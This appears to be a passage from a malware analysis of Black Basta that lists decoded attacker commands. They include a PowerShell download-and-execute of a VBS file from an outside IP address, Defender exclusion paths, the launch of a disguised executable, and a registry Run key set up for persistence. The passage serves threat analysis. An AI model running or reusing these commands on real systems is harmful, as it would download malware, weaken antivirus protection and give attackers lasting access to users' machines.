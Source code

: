 ![img-description](../assets/black_basta/cmd_commands.png)


**Decoded commands:**
```
Invoke-WebRequest -Uri 'http://54.93.105.22/F6w1S48.vbs' -OutFile "$env:LOCALAPPDATA\Temp\F6w1S48.vbs"; cmd.exe /c "$env:LOCALAPPDATA\Temp\F6w1S48.vbs"
```
- Add-MpPreference -ExclusionPath "%LOCALAPPDATA%/Temp"
- Add-MpPreference -ExclusionPath "%APPDATA%/Microsoft"
- Add-MpPreference -ExclusionPath "C:\ProgramData\Microsoft\ssh"
- Start-process $env:LOCALAPPDATA\Temp\Pancake.jpg.exe

**Setting registry for persistence:**
- $objShell = New-Object -ComObject WScript.Shell; $objShell.RegWrite("HKCU\Software\Microsoft\Windows\CurrentVersion\Run\WindowsUpdater", "wscript.exe %LOCALAPPDATA%/Temp/F6w1S48.vbs", "REG_SZ")

![img-description](../assets/black_basta/persistence1.png)

